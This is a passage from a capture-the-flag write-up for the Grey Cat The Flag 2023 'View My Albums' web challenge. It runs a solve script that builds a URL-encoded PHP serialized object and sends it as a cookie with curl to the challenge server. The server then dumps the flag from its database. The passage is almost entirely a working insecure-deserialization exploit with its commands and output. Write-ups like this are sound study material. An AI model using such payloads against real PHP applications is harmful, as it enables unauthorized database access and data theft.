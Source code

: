```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/View-My-Albums)-[2023.05.21|22:40:05(HKT)]
└> sudo docker cp solve.php fc7b7b7af007:/var/www/html/solve.php
```

- Run the script:

```shell
root@fc7b7b7af007:/var/www/html# php solve.php 

Warning: mysqli::__construct(): (HY000/1045): Access denied for user 'user'@'172.28.0.3' (using password: YES) in /var/www/html/solve.php on line 24
[+] Serialized get flag object in URL encoding: O%3A6%3A%22Albums%22%3A1%3A%7Bs%3A13%3A%22%00Albums%00store%22%3BO%3A16%3A%22MysqlRecordStore%22%3A6%3A%7Bs%3A24%3A%22%00MysqlRecordStore%00mysqli%22%3BO%3A6%3A%22mysqli%22%3A19%3A%7Bs%3A13%3A%22affected_rows%22%3BN%3Bs%3A11%3A%22client_info%22%3BN%3Bs%3A14%3A%22client_version%22%3BN%3Bs%3A13%3A%22connect_errno%22%3BN%3Bs%3A13%3A%22connect_error%22%3BN%3Bs%3A5%3A%22errno%22%3BN%3Bs%3A5%3A%22error%22%3BN%3Bs%3A10%3A%22error_list%22%3BN%3Bs%3A11%3A%22field_count%22%3BN%3Bs%3A9%3A%22host_info%22%3BN%3Bs%3A4%3A%22info%22%3BN%3Bs%3A9%3A%22insert_id%22%3BN%3Bs%3A11%3A%22server_info%22%3BN%3Bs%3A14%3A%22server_version%22%3BN%3Bs%3A4%3A%22stat%22%3BN%3Bs%3A8%3A%22sqlstate%22%3BN%3Bs%3A16%3A%22protocol_version%22%3BN%3Bs%3A9%3A%22thread_id%22%3BN%3Bs%3A13%3A%22warning_count%22%3BN%3B%7Ds%3A23%3A%22%00MysqlRecordStore%00table%22%3Bs%3A4%3A%22flag%22%3Bs%3A22%3A%22%00MysqlRecordStore%00host%22%3Bs%3A5%3A%22mysql%22%3Bs%3A22%3A%22%00MysqlRecordStore%00user%22%3Bs%3A4%3A%22user%22%3Bs%3A22%3A%22%00MysqlRecordStore%00pass%22%3Bs%3A19%3A%22j90dsgjdjds09djvupx%22%3Bs%3A20%3A%22%00MysqlRecordStore%00db%22%3Bs%3A9%3A%22challenge%22%3B%7D%7D
```

**Nice! We got the serialized object! Let's send it!**
```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/View-My-Albums)-[2023.05.22|00:19:01(HKT)]
└> curl http://34.124.157.94:10555/ --cookie "prefs=O%3A6%3A%22Albums%22%3A1%3A%7Bs%3A13%3A%22%00Albums%00store%22%3BO%3A16%3A%22MysqlRecordStore%22%3A6%3A%7Bs%3A24%3A%22%00MysqlRecordStore%00mysqli%22%3BO%3A6%3A%22mysqli%22%3A19%3A%7Bs%3A13%3A%22affected_rows%22%3BN%3Bs%3A11%3A%22client_info%22%3BN%3Bs%3A14%3A%22client_version%22%3BN%3Bs%3A13%3A%22connect_errno%22%3BN%3Bs%3A13%3A%22connect_error%22%3BN%3Bs%3A5%3A%22errno%22%3BN%3Bs%3A5%3A%22error%22%3BN%3Bs%3A10%3A%22error_list%22%3BN%3Bs%3A11%3A%22field_count%22%3BN%3Bs%3A9%3A%22host_info%22%3BN%3Bs%3A4%3A%22info%22%3BN%3Bs%3A9%3A%22insert_id%22%3BN%3Bs%3A11%3A%22server_info%22%3BN%3Bs%3A14%3A%22server_version%22%3BN%3Bs%3A4%3A%22stat%22%3BN%3Bs%3A8%3A%22sqlstate%22%3BN%3Bs%3A16%3A%22protocol_version%22%3BN%3Bs%3A9%3A%22thread_id%22%3BN%3Bs%3A13%3A%22warning_count%22%3BN%3B%7Ds%3A23%3A%22%00MysqlRecordStore%00table%22%3Bs%3A4%3A%22flag%22%3Bs%3A22%3A%22%00MysqlRecordStore%00host%22%3Bs%3A5%3A%22mysql%22%3Bs%3A22%3A%22%00MysqlRecordStore%00user%22%3Bs%3A4%3A%22user%22%3Bs%3A22%3A%22%00MysqlRecordStore%00pass%22%3Bs%3A19%3A%22j90dsgjdjds09djvupx%22%3Bs%3A20%3A%22%00MysqlRecordStore%00db%22%3Bs%3A9%3A%22challenge%22%3B%7D%7D"
Unrecognized data: object(Albums)#1 (1) {
  [0]=>
  object(Record)#5 (1) {
    ["data":"Record":private]=>
    array(4) {
      ["id"]=>
      int(1)
      ["flag"]=>
      string(29) "grey{l4_mu5iCA_DE_haIry_FroG}"
      ["created_at"]=>
      string(19) "2020-05-01 00:00:00"
      ["updated_at"]=>
      string(19) "2020-05-01 00:00:00"
    }
  }
}
```
